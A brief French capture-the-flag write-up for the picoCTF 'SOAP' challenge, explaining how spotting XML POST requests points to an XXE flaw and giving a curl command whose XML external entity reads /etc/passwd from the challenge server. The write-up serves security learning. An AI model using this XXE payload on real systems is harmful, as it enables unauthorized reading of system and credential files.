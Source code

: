 # SOAP

Le challenge nous présente un site présentant 3 liens `details` et on doit essayer de lire le fichier `/etc/password`

Un clic sur le lien correspond à une requête POST dont le `Content-Type` est `application/xm` => cela doit nous faire penser à la vulnerabilité [**xxe**](https://www.vaadata.com/blog/fr/comprendre-les-vulnerabilites-web-en-5-min-episode-11-xxe/)

Il faut dont injecter un code xml utilisant *entity* : 

```
curl -v http://saturn.picoctf.net:58868/data \
     -H "Content-Type: application/xml" \
     -H "Accept: application/xml" \
     -d '
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
          <data>
            <ID>&xxe;</ID>
          </data>
        '
```

Pour l'utilisation avec BURP Suite : https://medium.com/@World-Breaker/picoctf-soap-9807894fced4 
